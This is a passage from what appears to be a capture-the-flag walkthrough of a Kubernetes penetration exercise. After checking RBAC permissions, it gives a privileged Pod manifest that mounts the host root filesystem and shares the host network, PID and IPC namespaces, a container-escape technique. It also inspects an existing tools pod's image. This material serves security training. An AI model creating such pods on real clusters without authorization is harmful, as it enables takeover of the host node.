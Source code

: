 ```
                                                [/version/]                           []               [get]
                                                [/version/]                           []               [get]
                                                [/version]                            []               [get]
                                                [/version]                            []               [get]
```

Based on the output, we can do nearly anything we want related to Pods including creating new Pods.

Here is how we created a Pod, while also mounting the host filesystem, and then executing into it. This is the `yaml` file. 

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-pod
    image: ubuntu
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
  - name: noderoot
    hostPath:
      path: /
```

So, to  create this Pod, we need an image with tools. There was another Pod in the `coupons` namespace called `tools` that we might be able to use. 

6. Enter the following command to view what image the `tools` pod is using. 

```bash
kubectl get pods tools -o yaml
```

```yaml
1 apiVersion: v1
2 kind: Pod
3 metadata:
4   annotations:
5     kubectl.kubernetes.io/last-applied-configuration: |
6       {"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{},"name":"tools","namespace":"coupons"},"spec":{"containers":[{"command":["sleep","infinity"],"image":"registry.merch.codes:5000/tools:latest","imagePullPolicy":"IfNotPresent","name":"tools"}],"restartPolicy":"Always"}}
7   creationTimestamp: "2023-05-18T11:47:55Z"
8   name: tools
9   namespace: coupons
10   resourceVersion: "397959"
11   uid: e3a13f05-0cdf-4281-9989-b7decfd44ab8
```